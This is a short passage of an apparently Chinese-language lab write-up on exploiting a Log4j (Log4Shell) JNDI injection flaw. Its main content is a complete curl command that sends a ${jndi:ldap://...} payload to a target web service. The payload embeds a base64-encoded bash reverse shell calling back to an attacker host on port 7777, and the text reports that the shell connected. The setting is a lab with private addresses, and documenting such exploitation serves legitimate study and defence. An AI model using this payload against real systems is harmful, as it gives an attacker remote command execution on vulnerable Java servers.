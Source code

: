 <img src="picture/漏洞利用1-2步.png" alt="漏洞利用1-2步" style="zoom:50%;" />

3.使用攻击机发送漏洞利用请求，可以看到反弹shell成功的结果

```bash
 curl -G http://192.168.109.4:22220//hello --data-urlencode 'payload=${jndi:ldap://192.168.109.5:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.109.5/7777 0>&1' | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')'}'
```

<img src="picture/漏洞利用第3步.png" alt="漏洞利用第3步" style="zoom:50%;" />
